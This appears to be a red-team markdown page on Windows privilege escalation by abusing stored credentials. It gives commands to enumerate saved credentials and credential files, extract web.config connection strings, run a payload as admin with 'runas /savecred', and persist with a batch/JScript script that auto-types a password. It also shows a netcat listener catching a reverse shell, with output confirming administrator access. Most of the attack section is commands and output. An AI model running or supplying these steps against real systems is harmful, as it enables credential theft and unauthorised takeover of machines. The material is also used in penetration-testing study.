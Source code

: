 # Living off the Land

## 01 - Detect

### 1.1 - Command Prompt

This privilege escalation techniques is really easy to escalate to get the administrators group level. As the command follows:

```
C:\> cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic 
    User: 02nfpgrklkitqatu
    Local machine persistence

    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin
```

Check for credentials.

```
C:\> dir C:\Users\<username>\AppData\Local\Microsoft\Credentials\

C:\> dir C:\Users\<username>\AppData\Roaming\Microsoft\Credentials\

C:\> type C:\Windows\Microsoft.NET\Framework64\v*\Config\web.config | findstr.exe connectionString
```

### 1.2 - PowerShell

```
PS C:\> cmdkey.exe /list

PS C:\> Get-ChildItem -Hidden C:\Users\$Env:USERNAME\AppData\Local\Microsoft\Credentials\

PS C:\> Get-ChildItem -Hidden C:\Users\$Env:USERNAME\AppData\Roaming\Microsoft\Credentials\
```

## 02 - Exploit

We know the user is `admin` and the type of password is **Domain Password**. We will use the `runas` windows command to execute with admin privileges. And the flag `/savecred` will store the credentials in the **Windows Credentials** management and can be elevated without needing to re-enter the password after passing the particular username account once.

```
C:\> runas.exe /savecred /user:admin shell.exe
```

The full path of the `runas.exe` Windows builtin tool.

```
C:\> where.exe runas
C:\Windows\System32\runas.exe

C:\Windows\system32\runas.exe /user:<DOMAIN>\<username> "C:\Windows\system32\cmd.exe /c whoami"
```

We can also leverage this to make it persistent with the credentials we've obtained from the target with this script:

```batch
C:\> type savecred.bat
@if (@CodeSection == @Batch) @then
@echo off
start "" runas /savecred /user:%1 %2
CScript //nologo //E:JScript "%~F0"
goto :EOF
@end
WScript.CreateObject("WScript.Shell").SendKeys("<password>{ENTER}");
```

The syntax is for the batch script:

```
C:\> savecred.bat <drive_letter>:\path\to\implant.exe
```

Launch a shell handler to listen for incoming connection.

```
$ sudo nc -lnvp 53
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.10.174.46.
Ncat: Connection from 10.10.174.46:49801.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.
```

And you have successfully escalated to administrator user account.

```
C:\Windows\system32> whoami
win-qba94kb3iof\admin
C:\Windows\system32> net user %username%
net user %username%
User name                    admin
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/19/2020 10:05:42 AM
Password expires             Never
Password changeable          8/19/2020 10:05:42 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/25/2022 6:30:17 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
The command completed successfully.
```

---
## References

### SS64

- [SS64: RunAs](https://ss64.com/nt/runas.html)

### LOLBAS

- [LOLBAS: cmdkey](https://lolbas-project.github.io/lolbas/Binaries/Cmdkey/)

### Internal All The Things

- [Internal All The Things: Windows Privilege Escalation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)